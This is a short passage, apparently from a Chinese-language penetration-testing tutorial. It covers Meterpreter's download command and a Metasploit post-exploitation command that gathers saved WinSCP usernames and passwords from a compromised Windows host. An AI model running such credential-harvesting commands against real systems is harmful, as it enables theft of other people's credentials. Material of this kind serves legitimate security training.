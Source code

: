 输入命令download命令，下载文件。download命令后面需要加  ‘文件路径’

![img](../images/渗透测试/16331557-05ced0a08f59a553.png)

#### 获取winscp的账号和密码

利用meterpreter获取winscp保存的用户名和密码

```
run post/windows/gather/credentials/winscp
```

